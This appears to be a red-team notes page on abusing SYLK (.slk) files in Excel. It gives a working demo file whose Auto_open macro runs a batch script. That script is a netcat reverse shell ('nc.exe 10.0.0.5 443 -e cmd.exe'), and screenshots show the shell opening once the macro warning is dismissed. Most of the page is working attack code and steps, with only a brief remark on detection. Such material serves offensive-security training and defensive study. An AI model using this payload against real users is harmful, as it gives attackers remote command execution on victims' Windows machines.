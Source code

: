 # ⭕ .SLK Excel

{% embed url="https://www.avanan.com/blog/sylkin-attack-bypassing-microsoft-365-security-risking-users" %}

{% embed url="https://youtu.be/xY2DIRfqNvA" %}

{% embed url="http://www.irongeek.com/i.php?page=videos%2Fderbycon8%2Ftrack-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen" %}



Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```vba
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](<../../.gitbook/assets/image (52) (1) (1).png>)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\shell.cmd" %}
```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the macro warning is dismissed, the reverse shell pops as expected:

![](<../../.gitbook/assets/image (11) (1) (1).png>)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

Note that the payload file could be saved as a .csv - note the additional warning though:

![](<../../.gitbook/assets/image (34) (1).png>)
